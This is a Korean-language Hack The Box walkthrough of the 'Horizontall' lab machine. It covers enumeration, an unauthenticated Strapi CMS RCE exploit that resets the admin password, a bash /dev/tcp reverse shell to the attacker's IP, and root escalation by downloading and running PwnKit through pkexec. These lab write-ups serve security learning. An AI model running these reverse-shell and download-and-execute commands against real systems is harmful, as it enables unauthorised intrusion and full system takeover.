 # Horizontall
IP: 10.129.214.77


## 정보 수집

nmap을 사용해서 포트스캔 

```bash
nmap -Pn -p- -n --open --max-retries 1 --min-rate 2000 $ip
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
포트 스캔결과 22,80번 포트가 열려있는것 확인
![nmap](img/nmap.png)
```bash
nmap -sV -sC -oA nmap/Horizontall $ip -p 22,80 
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

각 포트별 현재 사용중인 시스템 버전은  
- 22 ssh  OpenSSH 7.6p1  
- 80 http nginx 1.14.0

> |_http-title: Did not follow redirect to http://horizontall.htb


웹서버에서 리다이렉션 했으나 실패 로컬에 등록해야함

```bash
#/etc/hosts 에 아래줄 추가
10.129.214.77   horizontall.htb
```
![etchost](img/etchost.png)
웹페이지 접속해서 분석결과 정적인 페이지  
![webpage](img/webpage.png)

웹디렉토리 브루트 포싱 시도  

```bash
gobuster dir -u http://horizontall.htb/ -w /usr/share/wordlists/dirb/common.txt -x php,txt

/css                  (Status: 301) [Size: 194] [--> http://horizontall.htb/css/]
/favicon.ico          (Status: 200) [Size: 4286]
/img                  (Status: 301) [Size: 194] [--> http://horizontall.htb/img/]
/index.html           (Status: 200) [Size: 901]
/js                   (Status: 301) [Size: 194] [--> http://horizontall.htb/js/]
```
별다른 파일, 디렉토리 찾지 못함  
ffuf로 하위도메인 탐색 별다른 하위도메인 찾지 못함  

웹페이지 소스 다시한번 분석  
http://horizontall.htb/js/chunk-vendors.0e02b89e.js  
![js](img/js.png)

![subdomain](img/subdomain.png)
난독화되어있는 js코드 https://beautifier.io/ 에서 읽을 수 있게 바꾼 후 분석  

```bash
cat app.js | grep -i horizontall
                        href: "https://horizontall.htb"
                }, [t._v("Horizontall.htb")])])])])
                        r.a.get("http://api-prod.horizontall.htb/reviews").then((function(s) {
        t.exports = e.p + "img/horizontall.2db2bc37.png"
```

http://api-prod.horizontall.htb/ 하위도메인을 찾음

```bash
#/etc/hosts 에 아래줄 추가
10.129.214.77   api-prod.horizontall.htb
```

http://api-prod.horizontall.htb 접속
![welcome](img/welcome.png)
아무것도 없이 정적페이지 다시 웹디렉토리 탐색
```bash
gobuster dir -u http://api-prod.horizontall.htb/ -w /usr/share/wordlists/dirb/common.txt -x php,txt
/admin                (Status: 200) [Size: 854]
/Admin                (Status: 200) [Size: 854]
/ADMIN                (Status: 200) [Size: 854]
/favicon.ico          (Status: 200) [Size: 1150]
/index.html           (Status: 200) [Size: 413]
/reviews              (Status: 200) [Size: 507]
/robots.txt           (Status: 200) [Size: 121]
/robots.txt           (Status: 200) [Size: 121]
/users                (Status: 403) [Size: 60]

```

/admin,/Admin,ADMIN 접속 시  
http://api-prod.horizontall.htb/admin/auth/login 로그인페이지로 리다이렉션됨
![strapi](img/strapi.png)
strapi CMS를 사용중이란것 확인

/reviews 에서 회원아이디로 추정되는 정보
![reviews](img/reviews.png)
## 취약점 & 익스플로잇 분석
```bash
searchsploit strapi  
![searchsploit](img/searchsploit.png)
Strapi 3.0.0-beta - Set Password (Unauthenticated)
Strapi 3.0.0-beta.17.7 - Remote Code Execution (RCE) (Authenticated)       
Strapi CMS 3.0.0-beta.17.4 - Remote Code Execution (RCE) (Unauthenticated) 
Strapi CMS 3.0.0-beta.17.4 - Set Password (Unauthenticated) (Metasploit) 
```
현재 버전을 확인하지 못했음 일단 인증이 필요없는 취약점 부터 사용

Strapi CMS 3.0.0-beta.17.4 - Remote Code Execution (RCE) (Unauthenticated) 

```bash
searchsploit -m 50239.py
python3 50239.py http://api-prod.horizontall.htb/  
[+] Checking Strapi CMS Version running
[+] Seems like the exploit will work!!!
[+] Executing exploit


[+] Password reset was successfully
[+] Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
[+] Your authenticated JSON Web Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNzU0NDA3MDU5LCJleHAiOjE3NTY5OTkwNTl9.DcygFSCDGQ08l_ot68-V4geIePLvRPpaiDfFDeq264M

$> ls
[+] Triggering Remote code executin
[*] Rember this is a blind RCE don't expect to see output
{"statusCode":400,"error":"Bad Request","message":[{"messages":[{"id":"An error occurred"}]}]}
```
RCE exploit은 성공했으나 blind RCE라서 값이 출력은 되지않음
셸을 얻기 위해 리버스셸 코드 실행

bash -c 'exec bash -i &>/dev/tcp/10.10.14.74/9999 <&1'
![alt text](image-4.png)


```bash
# 셸 안정화
strapi@horizontall:~/myapi$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
strapi@horizontall:~/myapi$ ^Z
zsh: suspended  nc -nlvp 9999
![revshell](img/revshell.png)                                                                                                                                             
┌──(root㉿kali)-[~/Hack_The_Box/Horizontall]
└─# stty raw -echo;fg   
[1]  + continued  nc -nlvp 9999

strapi@horizontall:~/myapi$ 
```
/home/developer 디렉토리에서 user.txt 플래그를 찾음음

```bash
strapi@horizontall:/home/developer$ cat user.txt 
03c7fcc0f0124c56a4af687250c8250a
```

## Privilege-Escalation

setuid 탐색
```bash
strapi@horizontall:/tmp$ find / -perm -4000 -type f 2> /dev/null
/usr/bin/pkexec # 취약점 존재
```
![setuid](img/setuid.png)
https://github.com/ly4k/PwnKit 루트킷 설치

```bash
#kali linux
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit
python3 -m http.server 7777 
#대상 호스트
wget http://10.10.14.74:7777/PwnKit
chmod +x PwnKit 
./PwnKit
id
uid=0(root) gid=0(root) groups=0(root),1001(strapi)  
```
![root](img/root.png)
루트권한을 얻음

```bash
cat /root/root.txt                   
e7931bd6e9f0a01d00e008d5cdd5e005 
```

# 취약점
- 취약한 버전의 Strapi CMS 3.0.0-beta.17.4 사용
- 잘못된 setuid 설정 /usr/bin/pkexec 권한상승 취약점이 존재하는 바이너리 파일이 setuid설정 되어있음음

